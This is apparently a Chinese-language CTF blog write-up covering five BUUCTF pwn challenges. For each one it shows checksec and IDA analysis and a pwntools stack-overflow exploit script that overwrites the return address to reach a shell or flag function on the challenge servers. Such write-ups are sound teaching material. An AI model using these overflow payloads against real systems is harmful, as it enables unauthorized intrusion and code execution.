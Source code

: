 ```yaml
---
title: rip1
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [CTF,BUUCTF]
tags: [Pwn]
---
```

## test_your_nc
```
nc node3.buuoj.cn 25795
```

![2020-09-17_13-42-26](https://i.loli.net/2020/09/18/NACD2xQiStRhu5T.png)

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## rip

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](https://i.loli.net/2020/09/19/LdE5bpzWK9lyCAt.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](https://i.loli.net/2020/09/19/bW4emScKthifgJR.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](https://i.loli.net/2020/09/19/jFzIb1xnsef5k3J.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](https://i.loli.net/2020/09/19/di3Ojf5xtwm1yCg.png)

之后查看栈，发现只要覆盖15+8就可以了

之后写Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

得到flag

---

## warmup_csaw_2016

先`checksec`

![image-20200919124407183](https://i.loli.net/2020/09/19/USwa9vEypzTxtk5.png)

无保护

用`IDA64`打开，看到了敏感函数

![image-20200919124759965](https://i.loli.net/2020/09/19/BXWJ1R9FwDe35qt.png)

为了方便直接用`gdb`

先**pattern create**创建垃圾字符，然后**run**运行，等到gets函数的时候粘贴垃圾字符

![image-20200919125221996](https://i.loli.net/2020/09/19/YLRwfglMHPIeV9U.png)

得到偏移(offset)值为72

![image-20200919125425197](https://i.loli.net/2020/09/19/EpVG9CM5m8ZWIqF.png)

之后写exploit

最开始敏感函数的位置是0000000000400611

````python
from pwn import *

a=remote("node3.buuoj.cn",26276)

#a=process("./warmup_csaw_2016")

a.sendline(b"a" * 72 + p64(0x400611))

a.interactive()
````

本地调试的时候因为无法cat flag.txt，所以会报错，直接remote就可以了

![image-20200919130030639](https://i.loli.net/2020/09/19/rOnN9a4wkcJoezY.png)

得到flag

---

## pwn1_sctf_2016

日常`checksec`

![image-20200919131722183](https://i.loli.net/2020/09/19/woVXPu8Cn7mzvZB.png)

发现开启了NX，也就是堆栈不可执行

拉进`ida32`，找到了敏感函数

![image-20200919141653100](https://i.loli.net/2020/09/19/2GgSEzoH3uJlkMx.png)

vul函数中，溢出点应该是fgets，要覆盖60+4位，但是长度限制32

中间一大段看不懂，尝试了一下

![image-20200919142145602](https://i.loli.net/2020/09/19/v9Kyrwn6NbxRzhP.png)

把I替换成了you，也就是说能够用64/3=21个I+64 mod 3=1个其余垃圾字符来溢出

开始写Exploit

````python
from pwn import *

a=remote('node3.buuoj.cn',27812)

#a=process("./pwn1_sctf_2016")

a.sendline(b"I" * 20+ b"a"*4 + p32(0x8048F13))

a.interactive()
````

![image-20200919214922369](https://i.loli.net/2020/09/19/uHvlIpQYEf6BTc3.png)

发现flag

---

## ciscn_2019_n_1

日常`checksec`

![image-20200919215440393](https://i.loli.net/2020/09/19/a6ebU4omWKGMhND.png)

64位且开启了NX

打开`IDA64`,发现敏感函数

![image-20200919215616095](https://i.loli.net/2020/09/19/VM9H247KnmWBG5u.png)

查看代码，发现gets可以溢出

![image-20200919221158798](https://i.loli.net/2020/09/19/AR2MeicndpQEfyU.png)

写exp

````python
from pwn import *
a=remote('node3.buuoj.cn',28471)

#a=process("./ciscn_2019_n_1")

a.recvuntil(".")

a.sendline(b"a" * 56 + p64(0x4006BE))

a.interactive()
````

当然还有其他解法，就是顺着程序，让v2=11.28125

````python
from pwn import *

r=remote('node3.buuoj.cn',28471)

r.sendline('a'*0x2c+p64(0x41348000))

r.interactive()
````

两种方法都可以发现flag

![image-20200919221108810](https://i.loli.net/2020/09/19/hD2J9NrlQBkIAgV.png)

---

